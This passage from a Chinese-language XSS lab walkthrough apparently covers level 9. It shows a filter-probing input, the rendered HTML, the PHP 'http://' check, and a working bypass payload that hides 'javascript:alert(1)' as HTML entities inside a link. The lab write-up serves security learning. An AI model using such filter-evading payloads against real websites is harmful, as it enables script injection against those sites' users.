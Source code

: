 ### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<input name=keyword  value="&lt;scr&lt;scrscriptipt&gt;ipt&gt;oonn\&amp;apos;\&quot;'&lt;&gt;">
<input type=submit name=submit value=添加友情链接 />
</form>
</center><center><BR><a href="您的链接不合法？有没有！">友情链接</a></center><center><img src=level9.png></center>
```

第1个输出点用了`htmlspecialchars()`，没法构造payload。

第2个输出点直接把输入的内容替换成报错信息(╬▔皿▔)╯，所以从前端没法猜测过滤机制，要么乱试要么看源码。

```php
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

由此可知过滤机制相比于上一关多了个判断输入的内容有没有包含`http://`。

***构建 payload：`&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;/*http://*/`，过关。***

​	

​	

## 第十关


